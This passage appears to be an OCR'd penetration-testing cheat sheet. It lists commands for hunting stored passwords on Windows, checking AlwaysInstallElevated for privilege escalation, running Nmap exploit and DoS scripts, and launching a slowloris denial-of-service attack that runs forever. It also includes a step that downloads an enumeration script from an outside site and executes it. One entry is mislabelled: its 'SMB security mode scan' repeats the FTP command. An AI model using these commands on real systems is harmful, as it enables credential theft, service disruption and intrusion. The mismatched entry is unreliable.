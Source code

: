     -   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    -   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    -   dir /s *pass* == *cred* == *vnc* == *.config*

    -   findstr /si password *.xml *.ini *.txt

    -   reg query HKLM /f password /t REG_SZ /s

    -   reg query HKCU /f password /t REG_SZ /s

-   Vulnerability Scanning with Nmap

-   Nmap Exploit Scripts
    [*https://nmap.org/nsedoc/categories/exploit.html*](https://nmap.org/nsedoc/categories/exploit.html)

-   Nmap search through vulnerability scripts
    `cd /usr/share/nmap/scripts/
    ls -l \*vuln\*`

-   Nmap search through Nmap Scripts for a specific keyword
    `ls /usr/share/nmap/scripts/\* | grep ftp`

-   Scan for vulnerable exploits with nmap
    `nmap --script exploit -Pn $ip`

-   NMap Auth Scripts
    [*https://nmap.org/nsedoc/categories/auth.html*](https://nmap.org/nsedoc/categories/auth.html)

-   Nmap Vuln Scanning
    [*https://nmap.org/nsedoc/categories/vuln.html*](https://nmap.org/nsedoc/categories/vuln.html)

-   NMap DOS Scanning
    `nmap --script dos -Pn $ip
    NMap Execute DOS Attack
    nmap --max-parallelism 750 -Pn --script http-slowloris --script-args
    http-slowloris.runforever=true`

-   Scan for coldfusion web vulnerabilities
    `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`

-   Anonymous FTP dump with Nmap
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

-   SMB Security mode scan with Nmap
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

-   File Enumeration

    -   Find UID 0 files root execution

    -   `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null`

    -   Get handy linux file system enumeration script (/var/tmp)
        `wget https://highon.coffee/downloads/linux-local-enum.sh  `
        `chmod +x ./linux-local-enum.sh  `
        `./linux-local-enum.sh`
